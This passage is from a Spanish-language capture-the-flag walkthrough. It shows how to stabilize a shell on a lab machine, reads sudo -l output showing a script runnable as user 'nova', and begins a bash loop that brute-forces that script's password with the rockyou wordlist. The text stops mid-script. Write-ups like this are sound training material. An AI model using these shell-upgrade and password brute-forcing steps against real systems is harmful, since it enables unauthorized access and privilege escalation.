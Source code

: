 Por lo que vemos ha funcionado, ahora sanitizaremos la `TTY`.

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user nova

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 71c36e1f8f71:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on 71c36e1f8f71:
    (nova : nova) NOPASSWD: /opt/password_nova
```

Vemos que podemos ejecutar el script `password_nova` como el usuario nova, si lo ejecutamos veremos lo siguiente:

```shell
sudo -u nova /opt/password_nova
```

Info:

```
Escribe la contraseña (Pista: se encuentra en el rockyou ;) ): test
Contraseña incorrecta.
```

Vamos a crearnos un script en `bash` que nos automatice esta tarea y pasarnos el `rockyou` a la maquina victima con `wget`.

> brute.sh

```shell
nano /tmp/brute.sh

#Dentro del nano
#!/bin/bash

# Ruta al archivo de diccionario rockyou.txt
wordlist="rockyou.txt"

# Comando que vamos a intentar ejecutar con las contraseñas
command="sudo -u nova /opt/password_nova"

# Recorremos cada palabra en el archivo de diccionario
while IFS= read -r password; do
    # Intentamos ejecutar el comando con la contraseña actual
    echo "Probando contraseña: $password"
    echo "$password" | $command
    
```